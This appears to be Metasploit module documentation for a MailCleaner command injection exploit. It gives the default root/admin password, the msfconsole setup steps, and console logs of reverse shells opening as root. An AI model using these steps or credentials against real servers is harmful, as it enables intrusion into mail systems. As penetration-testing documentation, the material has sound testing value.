 ## Description

This module exploits the command injection vulnerability of MailCleaner Community Edition product. An authenticated user can execute an operating system command under the context of the web server user which is root.

### Vulnerable Application
You can download ISO file from following URL.
[https://www.mailcleaner.org/latest-downloads/](https://www.mailcleaner.org/latest-downloads/)

At the time of this writing all the passwords of users such as root or admin user was "MCPassw0rd".

## Verification Steps

A successful check of the exploit will look like this:

1. Start `msfconsole`
2. `use use exploit/linux/http/mailcleaner`
3. Set `RHOST`
4. Set `LHOST`
5. Set `USERNAME`
6. Set `PASSWORD`
7. Run `exploit`
8. **Verify** that you are seeing ` Awesome..! Authenticated`.
9. **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf5 > use exploit/linux/http/mailcleaner_exec 
msf5 exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf5 exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
PASSWORD => qwe123
msf5 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:<password>
[*] Exploiting command injection flaw
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 1 opened (12.0.0.1:4444 -> 12.0.0.100:44974) at 2018-12-19 17:24:44 +0300
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.100:44975) at 2018-12-19 17:24:45 +0300

meterpreter >
```

You can also use cmd payloads.

```
msf5 > use exploit/linux/http/mailcleaner_exec 
msf5 exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf5 exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
msf5 exploit(linux/http/mailcleaner_exec) > set target 1
msf5 exploit(linux/http/mailcleaner_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP double handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:MCPassw0rd
[*] Exploiting command injection flaw
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo P6zixt2asYXZ29NE;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "P6zixt2asYXZ29NE\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (12.0.0.1:4444 -> 12.0.0.100:53996) at 2018-12-20 12:09:32 +0300

id
uid=0(root) gid=1003(mailcleaner) groups=1003(mailcleaner)
```
